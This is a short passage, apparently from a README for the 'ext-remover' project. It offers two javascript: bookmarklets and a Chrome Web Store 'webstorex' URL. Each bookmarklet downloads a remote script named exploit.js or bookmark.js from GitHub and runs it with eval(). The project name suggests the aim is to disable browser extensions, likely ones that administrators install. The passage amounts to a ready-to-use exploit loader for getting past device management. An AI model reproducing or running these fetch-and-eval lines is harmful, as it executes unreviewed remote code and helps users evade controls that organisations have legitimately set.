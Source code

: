```js
javascript:fetch("https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js").then(data=>{data.text().then(text=>{eval(text)})});
```

`https://chrome.google.com/webstorex`

```js
javascript:fetch("https://raw.githubusercontent.com/3kh0/ext-remover/main/bookmark.js").then(data=>{data.text().then(text=>{eval(text)})});
```
